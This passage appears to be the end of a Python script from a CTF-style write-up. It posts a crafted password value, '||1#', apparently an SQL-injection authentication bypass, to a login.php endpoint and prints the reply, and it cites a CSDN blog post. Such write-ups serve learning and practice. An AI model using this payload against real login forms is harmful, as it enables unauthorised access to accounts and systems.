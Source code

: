 ```
    "password":"||1#",
    "code":"erghruigh2uygh23uiu32ig"
}

req = r.post(url+"/login.php",data=data)

print(req.text)

```

参考

https://blog.csdn.net/m0_55793759/article/details/127078074
